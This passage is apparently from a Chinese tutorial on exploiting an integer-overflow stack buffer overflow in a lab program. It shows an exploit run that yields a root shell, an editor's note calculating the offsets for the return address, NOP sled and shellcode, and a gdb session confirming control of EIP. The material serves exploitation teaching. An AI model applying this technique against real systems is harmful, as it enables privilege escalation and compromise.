 ``` bash
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 0x04 编者注
首先，从反汇编中的下面两句，可以知道存储edi 空间下方还有一块对齐空间，以及buf 起始地址到这块对齐空间大小为12字节（11字节buf空间+1字节buf长度）  
```
0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
```
故需要 12 + 4 +4 +4 来覆盖返回地址之前的空间，故 可以 24 + 4（返回地址）+ 188 nop + 45 shellcode    
```
(gdb) r simba `python -c 'print "A"*261'`
Starting program: /home/simba/Documents/LinuxSec/vuln simba `python -c 'print "A"*261'`

Breakpoint 1, validate_passwd (passwd=0xbffff6e8 'A' <repeats 200 times>...) at intvuln.c:8
8	void validate_passwd(char* passwd) {
(gdb) info reg
eax            0xbffff6e8	-1073744152
ecx            0xbffff574	-1073744524
edx            0xbffff504	-1073744636
ebx            0xb7fc5ff4	-1208197132
esp            0xbffff4bc	0xbffff4bc
ebp            0xbffff4d8	0xbffff4d8
esi            0x0	0
edi            0x0	0
eip            0x804849e	0x804849e <validate_passwd>
eflags         0x282	[ SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) r simba `python -c 'print "A"*24+"B"*4+"C"*233'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/simba/Documents/LinuxSec/vuln simba `python -c 'print "A"*24+"B"*4+"C"*233'`

Breakpoint 1, validate_passwd (passwd=0xbffff6e8 'A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...)
    at intvuln.c:8
8	void validate_passwd(char* passwd) {
(gdb) si
0x0804849f	8	void validate_passwd(char* passwd) {
(gdb) finish
Run till exit from #0  0x0804849f in validate_passwd (
    passwd=0xbffff6e8 'A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...) at intvuln.c:8
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p $eip
$1 = (void (*)()) 0x42424242
(gdb) p/x $eip
```